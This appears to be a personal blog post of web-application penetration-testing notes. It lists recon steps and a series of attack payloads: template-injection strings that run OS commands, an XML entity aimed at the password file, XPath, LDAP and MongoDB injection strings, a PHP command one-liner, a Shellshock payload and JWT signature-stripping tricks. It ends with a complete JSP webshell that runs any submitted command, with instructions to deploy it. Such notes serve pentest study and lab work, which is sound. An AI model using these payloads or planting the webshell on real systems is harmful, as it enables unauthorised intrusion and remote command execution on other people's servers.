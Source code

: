 ```yaml
---
title: Web Application Methodology
date: 2021-09-19
categories:
  - Notes
tags:
  - Web App
  - Notes
excerpt_separator: <!--more-->
toc: true
toc_sticky: true
---
```


#container {
  float: left;
  margin: 0 -200px 110 0;
  width: 100%;
}

<h2 id="wtdvsawbapp">What to do vs a Web App</h2>

<ul>
    <li>check website is it php,asp or html</li>
    <li>check source code does it use cms</li>
    <li>Check robots.txt</li>
    <li>chech cert for useful info - subdomain?</li>
    <li>Gobuster dir and subdomain</li>
    <li>nikto</li>
    <li>Authorization vulns</li>
    <li>Code Injections? - can you control an input/data - eval(input)</li>
    <li>sqli? - https://www.hackingarticles.in/bypass-filter-sql-injection-manually/</li>
    <li>xxs?</li>
    <li>WIP</li>
    <li>SSRF</li>
    <li>Server-side template injection - {{''.__class__.mro()[1].__subclasses__()[X](COMMAND)}} or {{url_for.__globals__.os.popen("id").read() }}</li>
    <li>xml entities - <!DOCTYP3 test [
      <!ENTITY x SYSTEM "file:///etxc/paxswd">]></li>
      <li>xpath - hacker']%00 or hacker' or 1=1]%00 --- ?name=hacker' or 1=1]/parent::*/child::node()%00&password=sdf</li>
</ul>

<h2>ldap</h2>
<li>null bind - delete username&password data in body</li>
<li>ldap wildcard - adm*))%00</li>

<h2>mongodb</h2>
<li>injection? - hyst'|| 1==1 %00</li>


<h2>basic php oneliner</h2>
<code>php system($requests['hyst']); ?></code>



<h2>shellshock</h2>
<code>() { :;}; echo; `command`</code>
<p>echo to add a black space between headers and body output</p>

<h2>JWT</h2>
<p>header.data.signature - all in base64</p>
<p>set alg to None - remove signature </p>

<h2>apache and tomcat</h2>
<p>encoding of .. = %252e%252e</p>
<p>/manager/html</p>

<fieldset>
  
  <legend>webshell</legend>
  <pre><code>
    <.FORM METHOD=GET ACTION='index.jsp'>
    <.INPUT name='cmd' type=text>
    <.INPUT type=submit value='Run'>
    <./FORM>
    <%@ page import="java.io.*" %>
    <%
       String cmd = request.getParameter("cmd");
       String output = "";
       if(cmd != null) {
          String s = null;
          try {
             Process p = Runtime.getRuntime().exec(cmd,null,null);
             BufferedReader sI = new BufferedReader(new
    InputStreamReader(p.getInputStream()));
             while((s = sI.readLine()) != null) { output += s+"<./br>"; }
          }  catch(IOException e) {   e.printStackTrace();   }
       }
    %>
    <.pre><%=output %><./pre></code></pre>

      <p>remove dots after "<" save as .jsp</p>

</fieldset>


g0tmilk
